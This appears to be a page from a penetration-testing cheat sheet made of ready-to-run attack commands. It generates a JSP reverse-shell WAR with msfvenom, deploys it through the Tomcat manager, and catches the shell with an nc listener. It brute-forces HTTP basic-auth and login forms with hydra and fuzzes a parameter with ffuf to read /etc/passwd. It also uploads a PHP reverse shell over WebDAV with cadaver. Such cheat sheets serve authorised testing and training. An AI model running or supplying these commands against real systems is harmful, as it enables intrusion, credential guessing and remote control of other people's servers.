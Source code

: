 ```bash
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```

- HTTP bruteforce basic authentication 

`Attacking http-get/http-post login page `
```bash
hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15
```

- HTTP GET request 

```bash
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form  "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
```

- HTTP POST request

```bash
hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>
```

- ffuf

```bash
ffuf -u ‘http://<ip_address>/path/to_file.php?FUZZ=/etc/passwd’ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 0
```

- Uploading files using curl

```bash
#Do this to check if you can upload files
curl -u "username:password" -X PUT http://10.10.10.10/path/to/directory/listing

#If it worked upload a reverse shell using CADAVER
cadaver <url>/uploads/
Username:
password:
PUT php-reverse-shell.php
```
